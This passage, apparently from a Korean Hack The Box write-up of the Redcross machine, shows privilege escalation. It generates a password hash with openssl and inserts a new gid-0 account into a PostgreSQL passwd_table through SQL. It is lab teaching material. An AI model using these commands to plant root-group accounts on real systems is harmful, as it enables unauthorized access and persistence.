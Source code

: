![DB 테이블 탐색](/assets/htb-linux/redcross/psql-priv.png)

특히 이 테이블의 대한 권한을 상세히 살펴본 결과,
`unixusrmgr` 사용자는 passwd_table의 `username`, `passwd`, `gid` 컬럼에 aw 권한을 가지고 있다.

우선 새로운 계정을 추가하기 위해, 먼저 `openssl` 명령어를 사용해 `gidroot`의 비밀번호를 해시로 생성했다.

```bash
$ openssl passwd -1 gidroot   

$1$dDGSlHKl$elkDxuHzaWK8l7AaTeW/C1
```

그 후, `INSERT` 권한을 활용하여 `root` 그룹 권한을 가진 **새로운 사용자 계정(gidroot)**을 추가했다.

```sql
insert into passwd_table (username, passwd, gid, homedir) values ('gidroot', '$1$dDGSlHKl$elkDxuHzaWK8l7AaTeW/C1', 0, '/');
```

계정이 제대로 생성되었는지 확인하기 위해 `passwd_table`의 모든 데이터를 조회하였다.

```sql
select * from passwd_table;
```

조회 결과, `gidroot` 계정이 성공적으로 추가되었음을 확인하였다.

![그룹 루트 계정 생성](/assets/htb-linux/redcross/psql-user-create.png)
